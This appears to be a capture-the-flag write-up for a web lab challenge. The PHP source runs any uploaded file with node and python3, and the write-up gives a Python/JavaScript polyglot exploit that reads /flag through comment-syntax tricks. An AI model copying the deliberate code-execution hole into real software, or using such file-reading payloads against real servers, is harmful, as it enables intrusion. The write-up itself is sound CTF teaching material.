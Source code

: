 # Simple Welcome - 0x04(Lab - Script)
###### tags: `CTF` `Web` `eductf`
Challenge: https://pyscript.ctf.zoolab.org/

## Source Code
```php=
<?php
    if(!isset($_FILES["file"]))
        highlight_file(__file__) && die();
    $flag = file_get_contents('/flag');
    $node = @`node {$_FILES["file"]["tmp_name"]} 2>&1`;
    $python = @`python3 {$_FILES["file"]["tmp_name"]} 2>&1`;
    if($flag === $node && $flag === $python)
        echo 'Here is your Flag: '.$flag;
    else
        echo 'Fail :(';
?>
```
### Analysis
Must write a script that can be executed in python and node language simultaneously.

## Exploit - Using comment
1. In python
The comment is `#` for single line and `'''` for multi lines
2. In node
The comment is `//` for single line and `/**/` for multi lines
3. Using different definition of comment to write script
Some tips:
    ```python!
    a = 1 // 1;
    b = ''''''
    ```
    Both of these instruction are valid in python
4. Whole payload
* Python
    ```python!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```
* Javascript
    ```javascript!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```

* Whole exploit
    ```!=
    a = 1 // 1 ; b = '''

    const fs = require('fs');

    fs.readFile("/flag", 'utf8',(error, data) => {
        if (error) {
            console.error(error);
            return;
        }
        console.log(data.split('\n')[0]);
    })

    /* '''

    f = open("/flag", "r")
    print(f.read().split('\n')[0])
    # */
    ```
## Reference
[【已解决】PHP中函数前面加上at符号@的作用](https://www.crifan.com/php_function_front_at_sign_meaning/)
[[shell 2>&1是甚麼意思]](https://charleslin74.pixnet.net/blog/post/405455902)
[How to open a local file with JavaScript?](https://researchhubs.com/post/computing/javascript/open-a-local-file-with-javascript.html)
[How to Read/Write local files with Node.js](https://medium.com/@SergioPietri/how-to-read-write-local-files-with-node-js-3d2f58b0384)
[String.prototype.split()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)
